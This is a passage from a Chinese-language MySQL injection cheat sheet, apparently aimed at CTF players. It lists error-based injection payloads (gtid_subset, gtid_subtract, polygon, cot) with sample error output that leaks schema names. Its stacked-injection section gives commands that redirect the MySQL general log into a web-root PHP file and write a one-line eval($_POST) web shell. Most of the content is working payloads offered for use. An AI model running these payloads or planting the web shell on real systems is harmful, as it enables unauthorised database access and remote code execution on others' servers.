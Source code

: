#### 6.8 gtid

仅一列，可查user()、version()、database()

```sql
select gtid_subset(user(),1);
select gtid_subtract(user(),1);
```

#### 6.9 polygon

**前提：**知道字段名（一般用id）

报当前查询语句的库、表、字段

```SQL
mysql> select flag from ctf where polygon(id);
ERROR 1367 (22007): Illegal non geometric '`test`.`ctf`.`id`' value found during parsing
mysql> select flag from ctf where polygon(flag);
ERROR 1367 (22007): Illegal non geometric '`test`.`ctf`.`flag`' value found during parsing
```

#### 6.10 cot

**前提：**知道字段名（一般用id）

报当前查询语句的库、表、字段

```SQL
mysql> select username from users where cot(username);
ERROR 1690 (22003): DOUBLE value is out of range in 'cot(`ctf`.`users`.`username`)'
mysql> select username from users where cot(concat('a',id));
ERROR 1690 (22003): DOUBLE value is out of range in 'cot(concat('a',`ctf`.`users`.`id`))'
```

#### 6.11 其他报错函数

适用版本：**低于mysql（5.6.22）**

**geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()**

# 7 堆叠注入

**原理**

可执行多条sql语句，例如

```
$mysqli->multi_query($sql);
```

#### 7.1 写文件

```sql
set global general_log=on;
set global general_log_file='/var/www/html/shell.php';
select "<?php eval($_POST['jan']);?>";
```
